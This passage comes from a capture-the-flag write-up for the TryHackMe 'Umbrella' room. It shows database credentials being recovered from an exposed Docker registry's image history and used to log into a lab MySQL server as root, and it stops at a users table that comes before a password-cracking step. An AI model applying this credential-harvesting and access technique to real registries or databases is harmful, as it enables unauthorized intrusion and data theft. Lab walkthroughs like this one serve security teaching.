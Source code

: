 ```bash
      },
      {
         "v1Compatibility": "{\"id\":\"47c36cf308f072d4b86c63dbd2933d1a49bf7adb87b0e43579d9c7f5e6830ab8\",\"parent\":\"0f4399d82c47d9cecdf2518e3ecb523bbd1936d4a45d4230f1184d81b2b4b40c\",\"created\":\"2022-12-22T10:03:07.855078938Z\",\"container_config\":{\"Cmd\":[\"/bin/sh -c #(nop)  EXPOSE 8080\"]},\"throwaway\":true}"
      },
        [snip]
```

If you look closely through the history, you can find the DB password and username.

Using the password directly gives an error message, as it interferes with bash but we can simply supply the `-p` tag and then enter (or copy) the password.

```bash
mysql -u root -p "N[redacted]5" -h 10.10.31.98
bash: !Pe7: event not found
root@ip-10-10-214-222:~# mysql -u root -p -h 10.10.31.98
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 2049
Server version: 5.7.40 MySQL Community Server (GPL)

Copyright (c) 2000, 2023, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> 
```

And here we go, we got access to the MySQL database. That surely was quite a misconfiguration in the docker registry.

### Step 1c: MySQL and cracking passwords

Now that we have root access to the MySQL database we want to have an overview over the database.

```bash
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| timetracking       |
+--------------------+
5 rows in set (0.00 sec)

mysql> use timetracking;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+------------------------+
| Tables_in_timetracking |
+------------------------+
| users                  |
+------------------------+
```

[1]: https://tryhackme.com/room/umbrella